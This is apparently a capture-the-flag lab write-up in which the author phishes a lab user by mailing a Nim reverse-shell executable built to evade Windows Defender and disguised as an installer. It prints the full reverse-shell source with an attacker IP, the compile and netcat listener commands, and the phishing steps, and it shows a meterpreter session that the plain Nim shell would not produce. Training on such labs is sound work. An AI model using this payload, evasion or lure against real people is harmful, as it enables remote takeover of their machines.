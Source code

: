 # Shadow Phishing 2

## Challenge Description
> ![image](https://github.com/user-attachments/assets/58ea1407-3af8-4c52-a498-b2a6e8c8859f)

## Solution
This challenge is similar to **Shadow Phishing**

To begin, we access the webmail interface at:
`http://10.10.201.221/`

Using the provided credentials:
`Username: shadowbyte@darknetmail.corp`
`Password: ShadowIsTheBest`

This grants us access to ShadowByte’s email account. Our objective is to craft and deliver a malicious Win10 x64 executable that can bypass the antivirus to our target, Cipher (cipher@darknetmail.corp).

![image](https://github.com/user-attachments/assets/d7895a59-cecd-4f3e-a345-08aaeb86ac1c)


A little of Googling suggest that we can bypass Windows Defender via NIM Reverse Shell.

![image](https://github.com/user-attachments/assets/1ccccd5b-2945-4b16-843a-9a35680c658f)

First we have to install MinGW 64 via sudo apt-install mingw-w64, and then git clone https://github.com/Sn1r/Nim-Reverse-Shell, and then install nim following the instructions `https://jonathanturnock.github.io/nim-tutorials/docs/linux-installation`

In the rev_shell.nim, we have to change the variables v1 and v2:
```
#[ 
   Created by Sn1r
   https://github.com/Sn1r/
 ]#

import net, os, osproc, strutils

proc exe(c: string): string =
  result = execProcess("cm" & "d /c " & c)

var
  v = newSocket()

  # Change this
  v1 = "10.21.148.139" //Attacker's IP
  v2 = "9000" // Listening Port

  s4 = "Exiting.."
  s5 = "cd"
  s6 = "C:\\"

try:
  v.connect(v1, Port(parseInt(v2)))

  while true:
    v.send(os.getCurrentDir() & "> ")
    let c = v.recvLine()
    if c == "exit":
      v.send(s4)
      break

    if c.strip() == s5:
      os.setCurrentDir(s6)
    elif c.strip().startswith(s5):
      let d = c.strip().split(' ')[1]
      try:
        os.setCurrentDir(d)
      except OSError as b:
        v.send(repr(b) & "\n")
        continue
    else:
      let r = exe(c)
      v.send(r)

except:
  raise
finally:
  v.close
```

> [!NOTE]  
> ### Steps to Generate the Malicious Windows Executable bypass Windows Defender
> 1. To create our payload, we use nim
>    
>    ```
>    nim c -d:mingw --app:gui rev_shell.nim
>    ```

![image](https://github.com/user-attachments/assets/dc0dda82-30e0-4249-8764-59b503f924e1)

To receive a connection when the target opens the malicious executable, we used rlwrap:
> [!NOTE]  
> ### Setting Up a Listener
> 1. Open a terminal and setup listener:
>    
>    ```
>    rlwrap nc -lvnp 9000
>    ```
  
Now, when the target opens the executable, we will receive a reverse shell.

The next step is to send the phishing email.
> [!NOTE]
> ### Sending the Phishing Email
> 1. Log into the webmail interface.
> 2. Compose a new email addressed to cipher@darknetmail.corp.
> 3. Attach the malicious executable (renaming it to something convincing like SilentEdgeInstaller.exe).
> 4. Write a persuasive message to encourage the recipient to open the document.
> 5. Send the email.

Once the target opens the document, our reverse shell should trigger within ~2 minutes.

After some time, we receive a reverse shell, confirming that Cipher has executed the payload:

![image](https://github.com/user-attachments/assets/cc0482e6-0e1f-4b96-ab7c-a146f8506776)

We navigated to the Administrator’s Desktop:
```
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
```
We retrieved the flag:
```
meterpreter > cat flag.txt
THM{3m41l_ph1sh1ng_1s_3z}
```

![image](https://github.com/user-attachments/assets/082f1e3d-75cf-4959-b3ac-d24c38994236)

## Conclusion
The challenge demonstrated the effectiveness of phishing attacks in compromising a target system. Crafting a convincing email is crucial for successful phishing attacks. 
The Metasploit framework provides robust modules for creating payloads and handling connections.

## Flag
THM{3m41l_ph1sh1ng_1s_3z}
